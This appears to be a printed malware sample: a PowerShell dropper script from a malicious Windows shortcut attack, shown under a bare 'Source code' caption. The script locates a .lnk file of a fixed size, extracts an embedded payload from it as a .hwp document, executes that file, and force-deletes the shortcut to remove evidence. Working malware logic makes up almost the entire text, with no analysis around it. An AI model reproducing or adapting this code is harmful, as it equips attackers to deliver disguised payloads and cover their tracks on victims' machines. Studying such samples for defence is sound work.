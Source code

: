 $lk=ls -Path '.\' -filter '*.lnk';
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}
ac -path "C:\Users\user\Downloads\1.txt" $lk
$n=$lk.Replace('.lnk','.hwp');
ac -path "C:\Users\user\Downloads\1.txt" $n
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}};

$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
ac -path "C:\Users\user\Downloads\1.txt" $lk
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
&".\$fsdf";

ri ".\$lk" -force;


















